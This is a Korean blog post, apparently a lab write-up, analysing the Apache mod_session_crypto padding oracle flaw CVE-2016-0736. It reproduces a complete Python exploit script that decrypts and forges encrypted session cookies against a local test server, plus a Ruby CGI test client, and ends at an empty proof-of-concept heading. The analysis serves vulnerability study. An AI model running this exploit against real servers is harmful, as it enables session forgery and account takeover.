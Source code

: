 ```yaml
---
layout: post
title: "Apache Padding Oracle 취약점 (CVE-2016-0736) 분석"
categories: [보안취약점, CVE분석, 패딩오라클, Padding Oracle]
tags: [보안취약점, CVE분석, 패딩오라클, Padding Oracle]
toc: true
last_modified_at: 2023-07-19 14:02:00 +0900
---
```



# 개요
- Apache 의 Padding Oracle 취약점에 대해 분석해본다. 
- https://exploit-db.com/exploits/40961

# 목표
- 취약한 Apache버전을 사용해서 웹 서버를 구동해서 실제로 취약점이 있는 부분을 확인해본다. (exploit 코드를 실행해본다.)
- exploit 코드를 이해한다. 


# 이해하기 위한 세부 목표
1. python padding-oracle 라이브러리 사용방법을 알아야 한다. 
2. Apache 의 mod_session_crypto 모듈에 대해 알아야 한다. 
3. 취약한 환경을 구동할 수 있어야 한다. (취약한 Apache 버전, Apache 설정, 검증용 ruby 클라이언트 파일)

# Exploit 분석

## exploit 코드 (exploit.py)

- python의 padding-oracle 라이브러리(https://pypi.org/project/padding-oracle/)를 사용하고 있다. 

```py
from paddingoracle import BadPaddingException, PaddingOracle
from base64 import b64encode, b64decode
import requests

class PadBuster(PaddingOracle):
    def __init__(self, valid_cookie, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.wait = kwargs.get('wait', 2.0)
        self.valid_cookie = valid_cookie

    def oracle(self, data, **kwargs):
        v = b64encode(self.valid_cookie+data)

        response = requests.get('http://127.0.0.1:8080/cgi-bin/status.rb',
                cookies=dict(session=v), stream=False, timeout=5, verify=False)

        if 'username' in response.content:
            logging.debug('No padding exception raised on %r', v)
            return

        raise BadPaddingException

if __name__ == '__main__':
    import logging
    import sys

    if not sys.argv[2:]:
        print 'Usage: [encrypt|decrypt] <session value> <plaintext>'
        sys.exit(1)

    logging.basicConfig(level=logging.WARN)
    mode = sys.argv[1]
    session = b64decode(sys.argv[2])
    padbuster = PadBuster(session)

    if mode == "decrypt":
        cookie = padbuster.decrypt(session[32:], block_size=16, iv=session[16:32])
        print('Decrypted session:\n%r' % cookie)
    elif mode == "encrypt":
        key = session[0:16]
        plaintext = sys.argv[3]

        s = padbuster.encrypt(plaintext, block_size=16)

        data = b64encode(key+s[0:len(s)-16])
        print('Encrypted session:\n%s' % data)
    else:
        print "invalid mode"
        sys.exit(1)
```

## 클라이언트 코드 (status.rb)

```rb
#!/usr/bin/env ruby

require 'cgi'

cgi = CGI.new
data = CGI.parse(ENV['HTTP_SESSION'])

if data.has_key? 'username'
        puts
        puts "your username is %s" % data['username']
        exit
end

puts "X-Replace-Session: username=guest&timestamp=" + Time.now.strftime("%s")
puts
puts "not logged in"
```


# Exploit POC

